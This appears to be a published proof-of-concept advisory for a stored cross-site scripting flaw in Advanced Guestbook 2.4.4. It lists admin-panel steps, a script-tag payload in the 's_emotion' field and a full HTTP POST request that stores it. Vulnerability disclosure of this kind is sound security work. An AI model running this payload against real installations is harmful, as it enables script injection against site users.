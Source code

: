 XSS
---

    # Exploit Title: Advanced Guestbook 2.4.4 - 'Smilies' Persistent Cross-Site Scripting (XSS)
    # Date: 17/08/2021
    # Exploit Author: Abdulkadir AYDOGAN
    # Vendor Homepage: https://www.ampps.com/apps/guestbooks/Advanced_Guestbook
    # Software Link: https://www.ampps.com/apps/guestbooks/Advanced_Guestbook
    # Version: 2.4.4

    Advanced Guestbook is a free open source guestbook script developed in PHP.
    Examples of features include email notifications, uploading pictures, html
    tags handling, multiple polls, comments and themes.

    #Description
    The following is PoC to use the XSS bug with authorized user.

    Firstly there are four part of a emotion object which is :

    - Emotion icon
    - Emotion file name
    - Emotion command which will be used to call this object (s_code)
    - Emotion description (s_emotion)

    Here is the exploitation steps for vulnerability:

    1. Login to your admin account.
    2. Go to "Smilies" tab to view and edit emotion icons
    3. Click "edit" text in the "Action" column to edit emotions
    4. Change emotion description to Javascript code
    5. Click the "Submit Settings"
    6. Click "Smilies" tab again to view all emotions and Javascript code will
    be executed

    # Vulnerable Parameter Type: POST
    # Vulnerable Parameter: s_emotion
    # Attack Pattern: <script>alert("Smile more!")</script>

    #PoC
    HTTP Request:

    POST /advancedguestbook/admin.php HTTP/1.1
    Host: HOST_ADDRESS
    Content-Length: 175
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://HOST_ADDRESS
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
    (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
    Accept:
    text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer:
    http://HOST_ADDRESS/advancedguestbook/admin.php?action=smilies&session=17395de9919fffa0ac9476370c2c7ba0&uid=1&edit_smilie=7
    Accept-Encoding: gzip, deflate
    Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
    Cookie: _ga=GA1.2.2068746825.1621203842; _gid=GA1.2.1432458757.1621203842;
    _gat=1
    Connection: close

    s_code=:cool:&s_emotion=<script>alert("Smile
    more!")</script>&edit_smilie=7&uid=1&session=17395de9919fffa0ac9476370c2c7ba0&action=smilies&add_smilies=1